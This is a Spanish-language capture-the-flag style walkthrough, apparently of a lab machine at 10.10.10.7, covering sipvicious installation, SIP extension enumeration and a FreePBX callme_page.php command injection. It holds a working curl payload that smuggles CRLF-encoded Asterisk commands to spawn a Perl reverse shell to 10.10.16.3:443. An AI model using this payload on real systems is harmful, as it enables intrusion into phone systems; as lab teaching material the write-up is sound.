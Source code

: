 Podemos instalar sipvicious leyendo su página de documentación: 
![sipvicious installation doc](https://github.com/EnableSecurity/sipvicious/wiki/Basics#installation)

```shell
git clone https://github.com/enablesecurity/sipvicious.git
cd sipvicious
sudo python3 setup.py install
pip3 install .
sipvicious_svcrack --help
```

Ahora necesitamos una invitación y una serie de extensiones para encontrar una autenticación:

```shell
❯ sipvicious_svwar -m INVITE -e 100-999 10.10.10.7 2>/dev/null
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+
| 407       | weird          |
+-----------+----------------+
| 409       | weird          |
+-----------+----------------+
| 525       | weird          |
+-----------+----------------+
| 534       | weird          |
+-----------+----------------+
| 504       | weird          |
+-----------+----------------+
| 519       | weird          |
+-----------+----------------+
| 791       | weird          |
+-----------+----------------+
| 759       | weird          |
+-----------+----------------+
| 825       | weird          |
+-----------+----------------+
| 884       | weird          |
+-----------+----------------+
```

La extensión 233 parece ser válida.

Podemos conseguir una cáscara inversa haciéndolo manualmente:

```shell
curl -sk "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.16.3%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A"
```

Entonces coge una shell invertida con nc:
